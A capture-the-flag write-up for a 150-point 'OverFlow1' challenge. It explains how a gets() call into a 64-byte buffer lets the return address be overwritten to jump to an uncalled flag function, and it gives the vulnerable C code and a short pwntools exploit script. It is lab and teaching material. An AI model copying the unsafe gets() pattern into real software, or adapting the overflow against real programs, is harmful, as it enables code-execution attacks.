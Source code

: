 # OverFlow1 - 150pt

### Challenge ###
> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server.

### Hints ###
> Take control that return address.
> Make sure your address is in Little Endian.

### Solution ###

> In this case, as we can see in vuln.c, we've an executable that contains a function that prints the flag, but it's never called.

    void flag() {
    	char buf[FLAGSIZE];
    	FILE *f = fopen("flag.txt","r");
    	if (f == NULL) {
        	printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
        	exit(0);
    	}

    	fgets(buf,FLAGSIZE,f);
    	printf(buf);
    }

> To solve it, we have to perform an overflow to redirect the program flow to call the flag function.
We find the vulnerability in the vuln function. It use gets to fill a buffer of 64 bytes.

    void vuln(){
        char buf[BUFFSIZE];
        gets(buf);

        printf("Woah, were jumping to 0x%x !\n", get_return_address());
    }

> So we can use it to insert our garbage followed by the flag's function address.
With IDA we can find this address and calculate the distance between the start of the buffer and ebp.

### Executing the exploit ###
> We can do an overflow to call flag function.
We have to provide a BUFFSIZE (that contains 72) and other 4 for ebp. Then we're in ret so if we provide flag's function address we are calling flag.

### Exploit: ###

    garbage = "\x90" * (72 + 4)
    flag_addr = p32(0x080485E6)

    exploit = garbage + flag_addr

    p = process("./vuln")
    p.sendline(exploit)
    p.interactive()